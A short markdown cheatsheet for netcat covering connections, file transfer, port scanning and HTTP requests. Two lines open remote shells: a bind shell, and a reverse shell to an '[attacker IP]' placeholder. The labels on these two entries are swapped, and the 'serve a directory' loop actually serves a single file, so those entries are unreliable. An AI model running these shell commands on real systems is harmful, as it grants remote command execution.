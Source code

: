 ```yaml
---
title: Netcat
tags:
  - netcat
  - nc
  - cheatsheet
description: Cheatsheet for netcat usage
---
```

## Basic Usage
- **Connect to a remote host on a specific port:**
  ```bash
  nc [hostname] [port]
  ```

- **Listen on a specific port for incoming connections:**
  ```bash
  nc -l -p [port]
  ```

- **Transfer a file over a network (Sender):**
  ```bash
  nc [destination IP] [port] < [file]
  ```

- **Transfer a file over a network (Receiver):**
  ```bash
  nc -l -p [port] > [file]
  ```

- **Scan open ports on a target:**
  ```bash
  nc -zv [hostname or IP] [start_port]-[end_port]
  ```

## Advanced Usage
- **Create a simple chat server (Server):**
  ```bash
  nc -l -p [port]
  ```

- **Create a simple chat client (Client):**
  ```bash
  nc [hostname] [port]
  ```

- **Serve a directory over HTTP:**
  ```bash
  while true; do nc -l -p [port] -q 1 < index.html; done
  ```

- **Connect to a remote shell:**
  ```bash
  nc -l -p [port] -e /bin/bash
  ```

- **Bind a shell to a port (reverse shell):**
  ```bash
  nc [attacker IP] [port] -e /bin/bash
  ```

- **Send an HTTP GET request:**
  ```bash
  echo -e "GET / HTTP/1.1\r\nHost: [hostname]\r\nConnection: close\r\n\r\n" | nc [hostname] [port]
  ```

## Common Options
- **`-l`**: Listen mode (used for inbound connections).
- **`-p`**: Local port (specify the port to listen on).
- **`-z`**: Zero-I/O mode (used for scanning).
- **`-v`**: Verbose mode (prints more information).
- **`-e`**: Executes a program after a connection is established.
- **`-n`**: Numeric-only IP addresses, no DNS.
- **`-w`**: Timeout for connects and final net reads.
